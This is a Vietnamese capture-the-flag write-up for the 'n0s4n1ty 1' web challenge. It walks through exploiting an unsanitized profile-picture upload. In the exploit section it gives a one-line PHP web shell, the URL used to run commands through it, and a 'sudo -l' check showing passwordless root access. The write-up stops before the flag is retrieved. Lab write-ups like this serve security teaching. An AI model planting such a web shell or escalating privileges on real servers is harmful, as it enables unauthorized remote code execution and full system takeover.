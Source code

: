 # 🧠 Challenge: n0s4n1ty 1

---

## 📝 **Description**

> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

---

## 💡 **Hint**

- `File upload was not sanitized`
- `Whenever you get a shell on a remote machine, check sudo -l`

---

## 🔍 **Initial Analysis**

Khi khởi động challenge, người dùng được cung cấp một giao diện web với chức năng **tải ảnh đại diện**.
![](../img/n0s4n1ty-1.png)
Kiểm tra mã JavaScript phía frontend:

```javascript
var loadFile = function(event) {
    var input = event.target;
    var file = input.files[0];
    var type = file.type;
    var output = document.getElementById('preview_img');

    output.src = URL.createObjectURL(event.target.files[0]);
    output.onload = function() {
        URL.revokeObjectURL(output.src); // free memory
    }
};
```
Đây chỉ là mã preview ảnh, không có cơ chế lọc nội dung file upload, cho thấy khả năng tồn tại lỗ hổng unsanitized file upload.
Kiểm tra sever và web có hoạt động ổn định bằng việc upload thử 1 file ảnh có dung lượng nhỏ:
![](../img/n0s4n1ty-1-test.png)
![](../img/n0s4n1ty-1-test-output.png)
![](../img/n0s4n1ty-1-test-output-img.png)

---
## 🚩 **Exploit: Unsanitized File Upload → Web Shell**

**Tạo 1 file shell php với nội dung:**
```php
<?php system($_GET['cmd']); ?>
```
**Upload file php lên web và truy cập vào đường dẫn http://<host>:<port>/uploads/shell.php?cmd=id** 
> Ta thấy lệnh được thực thi, cho thấy ta có thể **Remote Code Execution.**

Như hint của bài thì ta dùng câu lệnh ``sudo -l`` cho kết quả : 
![](../img/n0s4n1ty-1-payload.png)
> ``User www-data`` → người dùng hiện tại.
> 
> ``may run the following commands`` → được phép chạy...
> 
> ``(ALL)`` → với tư cách bất kỳ user nào (bao gồm cả root).
> 
> ``NOPASSWD`` → không cần nhập mật khẩu khi dùng sudo.
> 
> ``ALL`` → chạy được tất cả lệnh.
>

Kết quả cho ta biết : User hiện tại có thể thực thi mọi lệnh dưới quyền root mà không cần mật khẩu.
